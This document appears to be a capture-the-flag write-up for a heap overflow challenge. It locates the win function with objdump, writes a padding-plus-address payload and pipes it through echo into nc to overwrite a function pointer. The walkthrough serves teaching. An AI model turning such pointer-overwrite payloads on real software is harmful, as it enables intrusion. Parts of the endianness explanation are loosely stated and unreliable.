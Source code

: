 # Heap 2

This challenge is the same as heap 1, however, the win function has changed:

```
void check_win() { ((void (*)())*(int*)x)(); }
```

Without going into too much detail, this will call the function which memory address is x.
So, first we have to figure out where win is located in the binary. This is easily done by running:
`objdump -d chall | grep "win"`

which will give us the output: `00000000004011a0 <win>:`

This means that the entrypoint for win() is in `00000000004011a0`, however, this is printed as big endian, whereas our system is little endian, meaning we have to swap the endianness: `a011400000000000`. 

We then have to construct our string payload. We know from the previous heap challenges that we need `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH` infront to write into `safe_val`. 

Lastly, we have to remember to encode the address into hex. Putting all of this together gives us the payload: `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH\xa0\x11\x40\x00\x00\x00\x00\x00`

Putting this in directly to the program however did not work, meaning that we need to encode it properly. This can be done in many ways but using echo and piping into nc is the easiest.

This gives us the command: `echo -e -n "2\nAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH\xa0\x11\x40\x00\x00\x00\x00\x00\n3\n\4\n" | nc ip.picoctf.net port`

-e for enable interpretation of backslash escapes and -n for do not output the trailing newline.

This provides us with the flag.